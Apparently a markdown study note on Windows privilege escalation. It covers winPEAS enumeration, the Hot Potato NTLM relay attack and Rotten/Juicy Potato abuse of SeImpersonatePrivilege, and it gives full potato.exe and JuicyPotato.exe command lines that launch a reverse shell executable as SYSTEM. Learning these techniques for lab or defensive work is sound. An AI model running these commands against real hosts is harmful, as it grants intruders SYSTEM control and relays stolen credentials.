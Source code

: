 Using winpeas

```cmd
 .\winPEASany.exe quiet procesinfo
```
Note proces is wrongly spelled. This is intended.

Use exploitdb to search for interesting ones. Simple


## Using Hot Potato

Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges.
The attack tricks Windows into authenticating as the SYSTEMuser to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution.
*This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.*


```cmd
.\potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true

```
-enable_httpserver : starts a fake HTTP server to intercept HTTP redirects for Win updates and
then grabs credentials by forcing to Window to reauthenticate and sends us the credentials via SMB
-enable_exhaust : starts exhausting UDP ports
-enable_spoof : enables NBS spoofer so DNS starts failing 

## Rotten/Juicy Potato

Service accounts can be given special privileges in order for them to run their services, and cannot be logged into directly.
Unfortunately, multiple problems have been found with service accounts, making them easier to escalate privileges with.

Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user.
This was possible because service accounts usually have the *SeImpersonatePrivilege* privilege enabled

For eg. IIS Runs with the privilegs of a service account , we can get a reverse shell from it


```cmd

C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-
49b8-abc6-03dd84127020}
```
For valid CSIDs visit this link
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md



